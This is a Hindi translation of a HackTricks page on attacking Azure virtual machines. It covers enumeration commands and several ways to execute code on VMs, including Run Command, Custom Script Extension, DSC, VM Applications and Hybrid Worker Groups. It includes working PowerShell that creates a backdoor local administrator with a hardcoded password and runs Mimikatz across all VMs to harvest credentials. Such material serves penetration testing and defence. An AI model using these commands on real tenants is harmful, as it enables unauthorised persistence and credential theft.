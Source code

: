 # Az - वर्चुअल मशीन और नेटवर्क

{% hint style="success" %}
AWS हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और प्रैक्टिस करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## मूल जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) एज़्यूर वर्चुअल मशीन एज़्यूर की कई प्रकार की [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) में से एक हैं। सामान्यत: आप एक वर्चुअल मशीन का चयन करते हैं जब आपको अन्य विकल्पों से अधिक नियंत्रण चाहिए होता है। इस लेख में आपको यह जानकारी मिलेगी कि आपको एक वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, इसे कैसे बनाया जाता है, और इसे कैसे प्रबंधित किया जाता है।

## एज़्यूर नेटवर्क जानकारी

एज़्यूर नेटवर्क में **विभिन्न एंटिटी और इसे कॉन्फ़िगर करने के तरीके होते हैं।** आप विभिन्न एज़्यूर नेटवर्क एंटिटी के संक्षेपित **विवरण,** **उदाहरण** और **जांच** कमांड्स यहाँ पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## एज़्यूर बास्टियन

**एज़्यूर बास्टियन** एक सुरक्षित, पूरी तरह से प्रबंधित आरडीपी (रिमोट डेस्कटॉप प्रोटोकॉल) और एसएसएच (सुरक्षित शैल) एक्सेस समाधान प्रदान करता है जो एज़्यूर पोर्टल के माध्यम से एसएसएल के माध्यम से एक्सेस करने की सुविधा प्रदान करता है। यह एक एज़्यूर वर्चुअल नेटवर्क के भीतर एकीकृत है, जिससे आरडीपी और एसएसएच कनेक्टिविटी को वीएम का उपयोग करके निजी आईपी का उपयोग करके किया जा सकता है, जो वीएम एक्सेस के लिए सार्वजनिक आईपी की आवश्यकता को दूर करता है। इससे यह पारंपरिक विधियों के लिए एक सुरक्षित, अधिक सुविधाजनक विकल्प बन जाता है जिसमें वीएम एक्सेस के लिए सार्वजनिक आईपी का निर्धारण और एनएसजी नियम विन्यास शामिल होता है। डेवलपर्स और आईटी कर्मचारी अपने वेब ब्राउज़र का उपयोग करके एज़्यूर पोर्टल से वीएम्स तक सुरक्षित रूप से पहुंच सकते हैं, विकास और परीक्षण परिवेश के लिए प्रक्रिया को सुगम बनाते हैं।

अपने सब्सक्रिप्शन में सभी एज़्यूर बास्टियन होस्ट्स को सूचीत करने के लिए, आप निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM जांच
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **वीएम में कमांड चलाएं**

### **वीएम में AAD लॉगिन**

यह संभव है कि AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को एक्सेस देने की अनुमति हो। उदाहरण के लिए **लिनक्स वीएम** तक पहुंचने की कोशिश करने के लिए: `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने की कोशिश करते समय उपयोग किए गए एज़रकॉर्प के ईमेल का उपयोग करना **महत्वपूर्ण है**) तो आपको एक त्रुटि मिल सकती है:
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

केवल **उन निर्देशों का पालन करें** जो [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर कोड को दर्ज करें, ईमेल और पासवर्ड का उपयोग क्रेडेंशियल के रूप में करें और आप SSH के माध्यम से कनेक्ट कर सकेंगे (यदि उस उपयोगकर्ता के पास इसे करने के लिए पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका).

### **रन कमांड**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएं**

एज़्यूर वर्चुअल मशीन (VM) एक्सटेंशन **छोटे एप्लिकेशन** हैं जो **एज़्यूर VMs** पर **पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन** और ऑटोमेशन **कार्य** प्रदान करते हैं। उदाहरण के लिए, अगर किसी वर्चुअल मशीन को सॉफ़्टवेयर इंस्टॉलेशन, एंटीवायरस सुरक्षा, या उसके अंदर स्क्रिप्ट चलाने की क्षमता की आवश्यकता होती है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, अगर आपके पास इसे लिखने का एक्सेस है, तो आप विचारहीन कोड को निषेध कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### वांछितकॉन्फ़िगरेशनस्थिति (DSC)

वांछित कॉन्फ़िगरेशन स्थिति (DSC) एक PowerShell टूल है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से होस्ट को सेट करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जो विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करने की अनुमति देता है। इन फ़ाइलों को एक सख्त संयंत्र का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड्स को निष्पादित कर सकता है जो कुछ फ़ॉर्मेटिंग मानदंडों को पूरा करती हैं, भले ही सिंटैक्स DSC मानकों के लिए सही न हो, जैसा कि प्रदान किए गए आकार में दिखाया गया है।

इन कमांड्स को निष्पादित करने का आयाम [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन आज़ पावरशेल में किया जाता है। आवश्यकताएँ एक **.PS1** फ़ाइल शामिल हैं जिसमें एक परिभाषित फ़ंक्शन हो और फ़ाइल को एक **.zip** फ़ाइल में ज़िप किया जाना चाहिए। हालांकि, सिंटैक्स DSC के लिए सही न होने के बावजूद, कोड फिर भी निष्पादित होगा। हालांकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और कमांड से कोई आउटपुट दिखाई नहीं देगा क्योंकि स्थिति विफलता संदेश द्वारा अधिलिखित हो जाएगी।

### VM एप्लिकेशन परिभाषाएँ

VM एप्लिकेशन परिभाषाएँ एक Azure VM पर संस्करणित एप्लिकेशन का दोहरावी डिप्लॉयमेंट समर्थन करती हैं। यह संसाधन VMs पर एप्लिकेशनों का डिप्लॉयमेंट और अपडेट समर्थन करता है। इसे सेट करने के लिए, कई कदम आवश्यक हैं, जिसमें **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड्स शामिल हैं आज़ पावरशेल में।

इस विधि के माध्यम से एप्लिकेशन या कमांडों को निष्पादित करने में **"VMAppExtension"** शामिल है, जो एक एप्लिकेशन को VM पर लागू किया जाता है तो स्वचालित रूप से स्थापित हो जाता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे एप्लिकेशन के रूप में नामित करता है, किसी एक्सटेंशन के बिना। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को उचित एक्सटेंशन के साथ फ़ाइल का नाम बदलने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की स्थापना, एक बार पूरी होने पर, प्रदान किए गए आकार में दिखाई देगी।

हालांकि, यह निष्पादन की विधि अपेक्षाकृत धीमी है, लगभग 3-4 मिनट लगते हैं एक एप्लिकेशन या कमांड को निष्पादित करने के लिए। इस प्रक्रिया से संबंधित फ़ाइलें विशेष निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` एप्लिकेशन कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीक विशेष रूप से अद्वितीय तरीकों से कमांडों को निष्पादित करने और एप्लिकेशनों का डिप्लॉय करने के लिए उपाय प्रदान करते हैं आज़र वातावरण में, प्रत्येक के अपने आवश्यकताओं, कदमों, और विचारों के साथ।

### एज़्यूर में हाइब्रिड वर्कर ग्रुप्स (HWGs)

[**हाइब्रिड वर्कर ग्रुप्स (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) एक विशेषता है जो एज़्यूर में है जो रनबुक्स को निष्पादित करने की अनुमति देती है, जो एक ऑटोमेशन अकाउंट में कॉन्फ़िगर किए गए होते हैं, एक एज़्यूर वर्चुअल मशीन (VM) पर निष्पादित होते हैं जो निर्धारित HWG का हिस्सा है। यह निष्पादन एक एक्सटेंशन के माध्यम से सुविधित होता है जो VM पर इंस्टॉल किया जाता है, जो रनबुक कोड को VM पर डिप्लॉय करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं है क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या रूट के रूप में, जैसा कि प्रदान किए गए आकार में दिखाया गया है।

विंडोज 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण है कि रनबुक के लिए PowerShell संस्करण को निर्दिष्ट करने की आवश्यकता है। यह PowerShell संस्करण 7.1 की बजाय 5.1 के रूप में सेट किया जाना चाहिए। यह आवश्यकता इस बात से उत्पन्न होती है कि इन VMs पर PowerShell 7.1 डिफ़ॉल्ट रूप से इंस्टॉल नहीं है, जिससे अगर संस्करण 7.1 निर्दिष्ट किया गया है तो स्क्रिप्ट निष्पादन में विफलता हो सकती है।

यह एज़्यूर की एक विशेषता है जो हाइब्रिड वातावरणों पर कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, जो एज़्यूर VMs पर कार्यों को केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।


## संदर्भ

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.** पर **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
